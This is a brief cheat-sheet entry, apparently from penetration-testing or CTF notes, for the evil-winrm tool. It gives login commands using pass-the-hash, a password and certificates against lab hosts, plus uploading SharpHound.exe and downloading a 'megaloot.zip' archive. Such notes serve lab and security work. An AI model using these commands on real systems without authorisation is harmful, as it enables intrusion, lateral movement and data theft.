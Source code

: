https://github.com/Hackplayers/evil-winrm
## Evil-WinRM
```bash
# Login with Hash
evil-winrm -i 192.168.100.101 -u username -H hash

# Login with Password
evil-winrm -i ghost.htb -u username -p '1S@t'

# Login with .pem
evil-winrm -i 10.10.11.152 -c cert.pem -k key.pem -S

# File Transfers
upload SharpHound.exe

download megaloot.zip
```